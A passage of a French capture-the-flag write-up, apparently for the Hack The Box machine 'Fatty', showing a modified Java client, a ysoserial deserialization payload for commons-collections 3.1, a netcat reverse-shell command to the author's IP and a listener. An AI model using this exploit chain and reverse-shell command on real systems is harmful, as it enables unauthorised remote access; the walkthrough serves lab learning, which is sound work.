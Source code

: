 On voit que lorsque l'on appuie sur le bouton, le message "*Not implemented yet.*" est affiché dans tous les cas. On va supprimer l'affichage de ce message et copier le fonctionnement des autre boutons pour appeler *changePW()*. On va donc mettre ce code (avec des valeurs "poubelles" dans l'appel de la fonction puisqu'on ne s'en servira pas).

```java
try {
    ClientGuiTest.this.invoker.changePW("qtc","pouetpouet");
} catch (MessageBuildException|htb.fatty.shared.message.MessageParseException e1) {
    JOptionPane.showMessageDialog(controlPanel, "Failure during message building/parsing.", "Error", 0);
}
catch (IOException e2) {
    JOptionPane.showMessageDialog(controlPanel, "Unable to contact the server. If this problem remains, please close and reopen the client.", "Error", 0);
}
textPane.setText("Payload launched"); /* Pour être sûr que ça appelle la fonction
```



Et maintenant, on modifie le code de *changePW()*. Dans un premier temps il nous faut une payload.

Pour générer la payload, on va utiliser [ysoserial](https://github.com/frohoff/ysoserial), d'après le fichier *META-INF/maven/fatty-server/fatty-server/pom.xml* le serveur utilise la version 3.1 de *commons-collections*. Il y a donc 5 payloads possibles via *ysoserial*, on les essayer une par une. 

```bash
java -jar ysoserial.jar CommonsCollectionsX 'nc 10.10.14.58 51337 -e /bin/sh' | base64 -w0
```

Ici, X est à remplacer par le numéro de payload. On obtient un base64 que l'on va utiliser dans notre code. Pour cela il n'y a qu'à modifier la ligne 

```java
this.action.addArgument(new String(serializedUser64));
```

par

```java
String b64payload = new String(/* AJOUTER LA PAYLOAD OBTENUE */);
this.action.addArgument(b46payload);
```

Comme d'habitude on passe par les étapes compilations & création du jar puis on ouvre un listener sur notre machine.

```bash
nc -nlvp 51337
```

On lance le client, se connecte en admin, va dans *Change Password* puis sans même remplir le formulaire on clique sur *Change*.

Et là, avec la payload *CommonsCollections5* on obtient un reverse shell sur la machine.

![Reverse shell sur Fatty](/img/fatty_reverse_shell.png)
